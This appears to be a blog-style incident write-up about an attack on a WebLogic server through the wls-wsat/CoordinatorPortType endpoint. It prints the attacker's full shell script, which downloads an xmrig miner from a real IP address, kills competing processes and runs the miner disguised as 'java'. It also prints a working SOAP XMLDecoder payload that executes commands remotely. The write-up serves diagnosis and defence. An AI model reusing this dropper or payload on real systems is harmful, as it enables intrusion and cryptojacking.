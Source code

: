 ## Weblogic Component Vulnerability /wls-wsat/CoordinatorPortType wls-wsat.war

It was the day after new year. In one morning all of our java instances has been killed. We first suspected there was a manual reboot. 
So we started our application server as usual. We first started our node managers. Then started our admin server and our java applications.
While we were working on these jobs, suddenly in one machine all of our java processes had been killed. We immediately informed our product owner saying that there could be a manual intervention somewhere else even if we could not find the logged in user. We also suspected that the ssh user had been compromised then changed the password with a relief.

After two hours everything went normally. Then the ultimate catastrophic event happened. Our java instances had been killed again. When we check the processes there were two java processes which eat up the cpu like a hungry pig. We decided not to kill these processes but examine them. When we inspect it with netstat we saw that they send packages to the following IP address.

```
http://145.239.0.84/
Mining Pool Online
```

We checked the history and could not believe our eyes.

```
#!/bin/bash
sPid=$$
mPid=''
mName='java'
checkCmd() {     command -v $1 >/dev/null 2>&1; }
downloader () {     if checkCmd wget; then         wget $1 -O $2 ;     elif checkCmd curl; then         curl $1 -o $2;     elif checkCmd python; then         if [ "`python -c "import sys; print(sys.version_info[0])"`" = "3" ]; then             python -c "from urllib.request import urlopen; u = urlopen('"$1"'); localFile = open('"$2"', 'wb'); localFile.write(u.read()); localFile.close()";         else             python -c "from urllib import urlopen; u = urlopen('"$1"'); localFile = open('"$2"', 'wb'); localFile.write(u.read()); localFile.close()";         fi;     else         cat < /dev/tcp/165.227.215.25/5555 > $2;     fi;     chmod +x $2; }
killer() {     for tmpVar in `ps -aeo pid,%cpu,command | sed 1d | sort -k 2 | tail -n 10 | awk '{print $1}'`; do         if [ $tmpVar = $sPid ]; then             continue;         fi;         if [ $tmpVar = $mPid ]; then             continue;         fi;         if [ `ps -o %cpu $tmpVar | sed 1d | sed 's/\..*//g'` -ge 60 ]; then             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep java` ]; then                 continue;             fi;             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep sh` ]; then                 continue;             fi;             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep bash` ]; then                 continue;             fi;             kill -9 $tmpVar;             rm -f `ls -l /proc/$tmpVar/exe 2>&1 | sed 's/.*-> //g'`;         fi;     done; }
runer() {     if [ -z "$mPid" ]; then         if [ ! -f $mName ]; then             downloader http://165.227.215.25/xmrig-y $mName;         fi;         chmod +x ./$mName;         ./$mName;     fi;     mPid=`ps -eo pid,command | grep $mName | head -n 1 | awk '{print $1}'`; }
pkill python; pkill $mName
downloader http://165.227.215.25/xmrig-y $mName
```

Someone had been killed all of our processes except its process. Downloaded a modified executable named xmrig which was apparently a Monero (XMR) CPU miner. Started this executable and started mining XMR on our servers. The process was named as java and was sending data to the Mining Pool Online (http://145.239.0.84/)

We were shocked. After a couple of hours of blaming and panicking we discovered that it was a sneaky attack on our WebLogic servers.

There is a path in WebLogic server wls-wsat/CoordinatorPortType which can be used to execute any kind of soap request. So when I post this request.

```
POST your_host/wls-wsat/CoordinatorPortType HTTP 1.1

Host: host_name
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: wp-settings-time-1=1506773666
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">;;
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">;;
            <java version="1.8" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>ls -l >> a_random_file.txt |bash</string>
                        </void>
                    </array>
                    <void method="start" />
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body />
</soapenv:Envelope>

```

The soap request has been executed ending with creating a file named a_random_file.txt with ls -l information in it. The request mainly creates a ProcessBuilder object and executes it!!!
So only with a HTTP request, I can execute any command on the remote server!!!

We were actually happy when we discovered that. 

Our solution was to delete the responsible war. You can find it with the following command.

```
locate wls-wsat.war
```

Just delete it. Do not spend time for patching your useless Weblogic server. 
Weblogic sucks!!!